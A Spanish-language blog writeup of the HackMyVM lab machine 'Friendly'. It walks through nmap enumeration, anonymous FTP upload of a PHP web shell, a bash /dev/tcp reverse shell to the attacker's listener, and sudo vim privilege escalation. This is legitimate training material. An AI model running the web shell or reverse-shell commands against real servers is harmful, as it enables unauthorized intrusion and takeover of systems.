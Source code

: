```yaml
---
title: 'Friendly'
date: 2024-01-28T12:47:48-03:00
permalink: /posts/hackmyvm/:title/
categories: ["Writeups", "HackMyVm"]
tags: ['Linux', 'ftp', 'Anonymous user', 'sudo', 'vim']
image:
  path: /assets/img/hmvm/friendly/friendly-0.png
---
```


En este artículo, abordaremos la resolución de la máquina [Friendly](https://hackmyvm.eu/machines/machine.php?vm=Friendly) de la plataforma HackMyVM. La máquina presenta un servicio FTP, al cual accedemos utilizando el usuario `anonymous`, que cuenta con la capacidad de cargar archivos en el servidor. Aprovechando esta funcionalidad, conseguimos cargar un archivo con extensión `.php` y logramos que sea interpretado por el servidor web Apache que se encuentra en ejecución en el puerto 80. De esta manera, logramos obtener acceso al sistema al ejecutar una reverse shell. Para culminar, explotamos una configuración inadecuada de `sudo` para elevar nuestros privilegios, logrando así una exitosa escalada de privilegios.

## Reconocimiento

Comenzamos lanzando una traza ICMP a la máquina objetivo para comprobar que tengamos conectividad.

![Friendly](/assets/img/hmvm/friendly/friendly-1.png)
_Reconocimento usando el comando ping_

Vemos que responde al envío de nuestro paquete, verificando de esta manera que tenemos conectividad. Por otra parte, confirmamos que estamos frente a una máquina Linux basandonos en el TTL (Time To Live).

## Enumeración

### Descubrimiento de puertos abiertos
Realizamos un escaneo con nmap para descubrir que puertos TCP se encuentran abiertos en la máquina víctima.

```bash
nmap -sS -p- --open --min-rate 5000 -Pn -n 10.10.10.15 -oG scanPorts -vvv
```

![Friendly](/assets/img/hmvm/friendly/friendly-2.png)
_Descubrimiento de puertos abiertos_

Parámetros utilizados:

- `-sS`: Realiza un TCP SYN Scan para escanear de manera sigilosa, es decir, que no completa las conexiones TCP con los puertos de la máquina víctima.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`).
- `--open`: Solo considerar puertos abiertos.
- `--min-rate 5000`: Establece el número mínimo de paquetes que nmap enviará por segundo.
- `-Pn`: Desactiva el descubrimiento de host por medio de ping.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.
- `-oG`: Determina el formato del archivo en el cual se guardan los resultados obtenidos. En este caso, es un formato _grepeable_, el cual almacena todo en una sola línea. De esta forma, es más sencillo procesar y obtener los puertos abiertos por medio de expresiones regulares, en conjunto con otras utilidades como pueden ser grep, awk, sed, entre otras.

### Enumeración de versión y servicio

Lanzamos una serie de script básicos de enumeración propios de nmap, para conocer la versión y servicio que esta corriendo bajo los puertos abiertos.

```bash
nmap -sCV -p22,80 10.10.10.15 -oN targeted -vvv
```

![Friendly](/assets/img/hmvm/friendly/friendly-3.png)
_Descubrimiento de versión y servicio con nmap_

Parámetros utilizados:

- `-sCV` Es la combinación de los parámetros `-sC` y `-sV`. El primero determina que se utilizarán una serie de scripts básiscos de enumeración propios de nmap, para conocer el servicio que esta corriendo en dichos puertos. Por su parte, el segundo parámetro permite conocer más acerca de la versión de ese servicio.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`)
- `-oN`: Determina el formato del archivo en el cual se guardan los resultados obtenidos, junto con el nombre del archivo `targeted`. En este caso, utiliza el formato por defecto de nmap.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.
`

## Explotación

### FTP - `Anonymous`

Como observamos en el escaneo anterior, el servicio `ftp` permite acceder con el usuario `anonymous`. En este caso, debemos ingresar como contraseña `anonymous@10.10.10.15`.
Al listar el contenido, nos encontramos con un archivo `index.html` el cual nos descargamos para ver su contenido.

![Friendly](/assets/img/hmvm/friendly/friendly-4.png)
_FTP - Descarga de index.html_

Si miramos el contenido del fichero `index.html`, vemos que se corresponde con el tipico archivo de una instancia de Apache.

![Friendly](/assets/img/hmvm/friendly/friendly-5.png)
_Fichero index.html_

Al ingresar al sitio web que esta corriendo bajo el puerto 80, nos encontramos con la página por defecto de una instancia de Apache, lo cual nos hace pensar que es el mismo archivo que nos descargamos.
En otras palabras, tenemos acceso al servidor web por medio de ftp.

![Friendly](/assets/img/hmvm/friendly/friendly-6.png)
_Web por defecto Apache_

Intentos subir un archivo con extensión `.php` para ver si el servidor interpreta este lenguaje.

```php
<?php
# shell.php
system($_GET['cmd']);
```

![Friendly](/assets/img/hmvm/friendly/friendly-7.png)
_Subida de fichero shell.php_

Si accedemos desde el navegador al archivo `shell.php`, vemos que efectivamente se esta interprentado el código `php`, lo que nos concede la capacidad de ejecutar comandos..

![Friendly](/assets/img/hmvm/friendly/friendly-8.png)
_POC shell.php_

### Reverse shell - `www-data`

Conociendo que tenemos capacidad de ejecución de comandos, ganemos acceso al sistema a través de una reverse shell.

En primer lugar, nos ponemos en escucha con netcat `nc` por el puerto `4444`.

![Friendly](/assets/img/hmvm/friendly/friendly-9.png)
_nc_

Ejecutamos la reverse shell.

```bash
bash -c 'bash -i >%26 /dev/tcp/10.10.10.5/4444 0>%261'
```

![Friendly](/assets/img/hmvm/friendly/friendly-10.png)
_Reverse Shell_

De esta forma, ganamos acceso al sistema.

![Friendly](/assets/img/hmvm/friendly/friendly-11.png)
_nc_

Hacemos un tratamiento de la tty para tener una terminal más interactiva:

- `script /dev/null -c bash`
- CTRL + Z
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows <rows> columns <columns>`

Y ya podemos leer el flag de `user.txt`.

![Friendly](/assets/img/hmvm/friendly/friendly-12.png)
_user.txt_

## Escalación de privilegios

### Enumeración del sistema

Luego de realizar una enumeración básica del sistema, vemos que el usuario `RiJaba1` puede ejecutar con `sudo` y sin solicitar contraseña el binario `vim`.

Si hacemos una búsqueda en GTFOBins, podemos ver que existen varias alternativas de poder escalar nuestros privilegios en este contexto [GTFOBins - vim](https://gtfobins.github.io/gtfobins/vim/#sudo), en este caso, usare la primera de ellas.

![Friendly](/assets/img/hmvm/friendly/friendly-13.png)
_sudo -l_

![Friendly](/assets/img/hmvm/friendly/friendly-14.png)
_GTFOBins - vim_

De esta manera, escalamos nuestros privilegios.

![Friendly](/assets/img/hmvm/friendly/friendly-15.png)
_Shell como root_

Pero aún no encontramos el flag de `root`, ya que como indica el mensaje debemos buscar otro archivo `root.txt`.

![Friendly](/assets/img/hmvm/friendly/friendly-16.png)
_root.txt_

Para lo cual, podemos hacer uso del comando `find`.

```bash
find / -name root.txt 2>/dev/null
```

Una vez que encontramos el archivo, podemos leer su contenido.

![Friendly](/assets/img/hmvm/friendly/friendly-17.png)
_root.txt_

De esta forma, llegamos al final del Write-up de la máquina Friendly.

Como siempre, espero que los conceptos hayan quedado claros. Si has llegado hasta este punto y aún tienes dudas, te recomiendo volver a realizar la máquina.

Gracias por tu lectura!

Happy Hacking!
